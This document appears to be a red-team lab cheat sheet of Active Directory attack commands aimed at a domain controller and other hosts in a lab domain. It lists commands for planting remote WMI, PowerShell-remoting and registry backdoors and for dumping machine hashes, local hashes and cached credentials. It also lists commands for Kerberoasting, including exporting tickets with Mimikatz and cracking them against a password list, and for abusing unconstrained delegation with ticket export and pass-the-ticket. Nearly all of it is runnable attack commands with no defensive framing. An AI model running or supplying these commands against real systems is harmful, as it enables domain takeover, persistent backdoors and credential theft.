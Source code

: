 ## Abusing SD

- (To be run with DA Priv) Set-RemoteWMI -UserName user.ind02 -ComputerName ycsc-ind-dc -namespace 'root\cimv2' -Verbose
- Command to test access: Get-WMiobject -Class win32_operatingsystem -computername ycsc-ind-dc.ind.ycsccorp.local
- (To be run with DA Priv) Set-RemotePSRemoting -UserName user.ind02 -ComputerName ycsc-ind-dc.ind.ycsccorp.local -verbose
- Command to test access with normal shell: Invoke-Command -ComputerName ycsc-ind-dc -ScriptBlock {whoami}
- (To be run with DA Priv) Add-RemoteRegBackdoor -ComputerName ycsc-ind-dc -Trustee user.ind02 -Verbose
- (To be run with normal shell) Get-RemoteMachineAccountHash -ComputerName ycsc-ind-dc -Verbose
- (To be run with normal shell) Get-RemoteLocalAccountHash -ComputerName ycsc-ind-dc -Verbose
- (To be run with normal shell) Get-RemoteCachedCredential -ComputerName ycsc-ind-dc -Verbose 

## Kerberoast

- Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName

### Requesting TGS

- Add-Type -AssemblyName System.IdentityModel
- New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/ycsc-ind-mssql.ind.ycsccorp.local:1433"
- Invoke-Mimikatz -Command '"kerberos::list /export"'
- python.exe .\tgsrepcrack.py .\10k-worst-pass.txt .\2-40a10000-user.ind02@MSSQLSvc~ycsc-ind-mssql.ind.ycsccorp.local~1433-IND.YCSCCORP.LOCAL.kirbi

### Targetted Kerberoasting

#### Enumerating accounts with Kerberos Preauth disabled

- Get-DomainUser -PreauthNotRequired -Verbose

- Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth

#### Force disable Kerberos Preauth

Enumerate the permissions for RDPUsers on ACLs using PowerView

- Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}

## Unconstrained Delegation

- Get-NetComputer -Unconstrained
- Find-LocalAdminAccess
- $sess = New-PSSession -ComputerName ycsc-ind-intra.ind.ycsccorp.local
- Invoke-Command -FilePath .\Invoke-Mimikatz.ps1 -Session $sess
- Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
- Invoke-Mimikatz -Command '"kerberos::ptt <path to stored ticket>"'
  